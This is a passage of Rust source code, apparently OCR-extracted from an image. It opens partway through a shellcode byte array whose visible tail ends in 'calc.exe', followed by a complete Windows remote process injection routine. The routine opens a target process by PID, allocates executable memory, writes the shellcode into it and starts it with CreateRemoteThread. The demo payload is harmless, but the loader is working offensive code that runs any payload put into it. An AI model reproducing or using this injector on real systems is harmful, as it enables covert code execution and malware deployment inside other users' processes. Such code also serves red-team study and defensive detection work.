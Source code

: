 ```rust
    0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,0x31,
    0x8b,0x6f,0x87,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,
    0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,
    0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,
    0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x63,0x61,0x6c,0x63,
    0x2e,0x65,0x78,0x65,0x00];

    let args: Vec<_> = std::env::args().collect();
    if args.len() > 2 {
        println!("Ignoring {} extra args", args.len() - 2);
        println!("[*] Usage: {} <PID>", args[0]);
    }
    let pid: u32 = args[1].parse().expect("Please provide a valid integer");
    let shell_size = shellcode.len();

    unsafe {
        let hProcess = OpenProcess(PROCESS_ALL_ACCESS, false, pid);
        if let Ok(hProcess) = hProcess {
            println!("Opened Handle: {:?}", hProcess);
            
            let buf = VirtualAllocEx(hProcess, Some(null()), shell_size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
            if buf.is_null() {
                eprintln!("VirtualAlloc Failed : {:?}", GetLastError());
                std::process::exit(2);
            }
            println!("Allocated Memory for shellcode");
            
            let status_write = WriteProcessMemory(hProcess, buf, shellcode.as_ptr() as *const c_void, shell_size, Some(null_mut()));
            if status_write.is_err() {
                eprintln!("Error Writing shellcode to Memory: {:?}", GetLastError());
                std::process::exit(3);
            }
            println!("Written shellcode to process");

            let hThread = CreateRemoteThread(hProcess, None, 0, transmute(buf), None, 0, None);
            if let Ok(hThread) = hThread {
                println!("Created Remote Thread : {:?}", hThread);
            } else {
                eprintln!("Error Creating Remote Thread: {:?}", GetLastError());
                std::process::exit(4);
            }

            CloseHandle(hProcess);
        }
        else {
            let err_code = GetLastError();
            println!("Failed to get Handle : {:?}", err_code);
        }
    }
}
```
